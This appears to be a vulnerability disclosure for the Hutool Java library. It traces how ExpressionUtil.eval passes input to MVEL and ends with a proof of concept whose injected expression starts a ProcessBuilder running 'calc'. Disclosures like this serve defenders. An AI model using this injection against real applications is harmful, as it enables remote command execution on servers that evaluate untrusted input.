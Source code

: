 Like hutool documents add dependency:
```java
<dependency>
    <groupId>cn.hutool</groupId>
    <artifactId>hutool-all</artifactId>
    <version>5.8.14</version>
</dependency>
```
**And mvel2 dependency**

```java
<!-- https://mvnrepository.com/artifact/org.mvel/mvel2 -->
<dependency>
      <groupId>org.mvel</groupId>
      <artifactId>mvel2</artifactId>
      <version>2.4.14.Final</version>
    </dependency>
```
As shown in the figure:
![image](https://user-images.githubusercontent.com/127066969/223008574-ad197c91-5b00-486c-aa02-ef9923dec8c3.png)


Vulnerability trigger analysis:

In `ExpressionUtil.class`:
```java
 public static ExpressionEngine getEngine() {
 //an interface `ExpressionEngine` is returned here.
        return ExpressionFactory.get();
    }

    public static Object eval(String expression, Map<String, Object> context) {
    //so getEngine().eval actually is the eval method of ExpressionEngine.
        return getEngine().eval(expression, context);
    }
```
The implementation class of `ExpressionEngine` is `MvelEngine`,
```java
public Object eval(String expression, Map<String, Object> context) {
        return MVEL.eval(expression, context);
    }
```
In the `eval` method, `MVEL` is used to execute regular expressions,after untrusted data is passed into the `eval` method,the expression injection vulnerability will be triggered.

POC:
```java
 public static void main(String[] args) {
        String mvel = "{(new java.lang.ProcessBuilder(\"calc\")).start()}";
        Map<String,Object> map2=new HashMap<>();
        map2.put("SoLikeDog", 1);
        ExpressionUtil.eval(mvel,map2);
    }
```
![image](https://user-images.githubusercontent.com/127066969/223008584-3330abe2-a265-4368-8650-b32f90dcab52.png)
